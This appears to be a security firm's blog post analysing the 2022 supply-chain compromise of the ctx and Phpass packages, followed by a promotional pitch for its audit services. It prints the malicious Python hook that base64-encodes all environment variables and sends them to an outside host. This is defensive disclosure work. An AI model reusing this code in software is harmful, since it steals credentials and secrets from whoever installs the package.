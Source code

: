 ```yaml
---
title: "How two Python and PHP dependencies, ctx and Phpass, became malware that stole secrets and credentials"
description: A security expert's analysis of the malicious code added to ctx and Phpass, Python and PHP dependencies, that turned them into malware by sending environment variables and credentials to a third party attacker.
slug: ctx-and-phpass-package-malware
date: 2022-05-24
keywords: [dependencies, ctx, phpass]
tags: [malware, dependencies]
authors: [chris, free, gabe]
---
```


<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

## PyPi package, `ctx`, compromised

After 7 years, the pypi package `ctx` received a version update. A malicious version of ctx was published under `0.2.2` as and update to the previous `0.1.2`. In this post we'll be reviewing the malicious code that was introduced.

<!--truncate-->

## Malicious Code in `ctx` version `0.2.2`

The following code was added to the package:

```python
def __init__(self):
    self.sendRequest()

    # code that performs dict access
    # please DO NOT RUN THIS CODE !

     def sendRequest(self):
        string = ""
        for _, value in environ.items():
            string += value+" "

        message_bytes = string.encode('ascii')
        base64_bytes = base64.b64encode(message_bytes)
        base64_message = base64_bytes.decode('ascii')

        response = requests.get("https://anti-theft-web.herokuapp.com/hacked/"+base64_message)
```

## `Phpass` contains identical malware

The library `Phpass` also received identical malicous code around the same time.

<a href="https://twitter.com/s0md3v/status/1529005758540808192" target="_blank" rel="noopener">
  <img src="https://www.lunasec.io/docs/img/ctx-Twitter-Screenshot.png" alt="Screenshot of ctx Twitter tweet" />
</a>


<a href="https://twitter.com/s0md3v/status/1529010306466615296" target="_blank" rel="noopener">
  <img src="https://www.lunasec.io/docs/img/Phpass-Twitter-Screenshot.png" alt="Screenshot of Phpass Twitter tweet" />
</a>

## External References

- [Archived version](https://archive.ph/xTUEN) of package versions.

- [Initial post](https://old.reddit.com/r/Python/comments/uumqmm/ctx_new_version_released_after_7_years_750k) observing the package had been updated.

- [Reddit post](https://old.reddit.com/r/Python/comments/uwhzkj/i_think_the_ctx_package_on_pypi_has_been_hacked/) with details about the malicious changes to ctx.

- [Sonatype blog post](https://blog.sonatype.com/pypi-package-ctx-compromised-are-you-at-risk) with details about timeline.

## For a limited time, claim an expert security review

Though perhaps unconventional, our team of Security Engineers has been working with startups to audit their dependencies and help them manage their security roadmap.

Why? It's simple: By working with us, we also learn about the common problems that companies face while shipping software. Helping you enables us to make our Open Source software better.

To get started, send us an email at [deps@lunasec.io](mailto:deps@lunasec.io) or [schedule a 15 minute call](https://cal.com/lunasec/15min) with one of our engineers.

### Who are we?

If you've heard of [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/) or [Spring4Shell](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities), then you're familiar with our work already! We're the security experts that gave those vulnerabilities their name by providing clear, concise advice and [building tools to resolve them](https://github.com/lunasec-io/lunasec).

Since then, we've interviewed hundreds of companies to help us build [LunaTrace](https://github.com/marketplace/lunatrace-by-lunasec).

What is LunaTrace? It's our Open Source security platform that automatically discovers vulnerabilities in your dependencies and gives you expert security guides with remediation steps and automated patches.

Whether you're a developer or a security professional, we'd love to hear from you! Drop us a line by [joining our Slack](https://join.slack.com/t/lunaseccommunity/shared_invite/zt-19wb6qg8w-OC1ktWO2LkG8lL3fpLD3AA) or trying out LunaTrace on your [GitHub repo for free](https://github.com/marketplace/lunatrace-by-lunasec).
